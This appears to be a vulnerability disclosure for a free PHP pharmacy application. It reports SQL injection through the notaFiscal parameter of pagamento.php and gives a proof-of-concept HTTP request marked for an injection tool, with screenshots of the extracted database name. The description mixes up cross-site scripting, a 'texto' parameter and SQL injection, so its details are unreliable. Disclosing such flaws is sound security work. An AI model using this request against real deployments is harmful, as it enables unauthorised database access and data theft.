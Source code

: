 # farmacia-in-php has sql injection in pagamento.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
pagamento.php and texto parameter.

## describe
There are unrestricted cross site scripting attacks and injection attacks in the farmacia-in-php. The controllable parameters are as follows: texto parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

The pagamento.php notaFiscal parameter value is obtained, concatenated into the SQL statement and executed without restrictions, and a malicious attacker can obtain sensitive server information through this SQL injection vulnerability

![image-20241127110114368](https://github.com/user-attachments/assets/7d4618ba-60cd-4e4e-9c76-601b0fa1c1e2)

## POC

```
GET /pagamento.php/cupon-fiscal.php?notaFiscal=1* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

save as  1.txt

**Result**

injection parameter: notaFiscal

![image-20241127105908402](https://github.com/user-attachments/assets/3b991acf-2867-45a2-9196-662beed97f3c)

Get databases: farmacia

![image-20241127110033174](https://github.com/user-attachments/assets/ffee6a20-999b-44f0-9aa4-c0b3f51cbea4)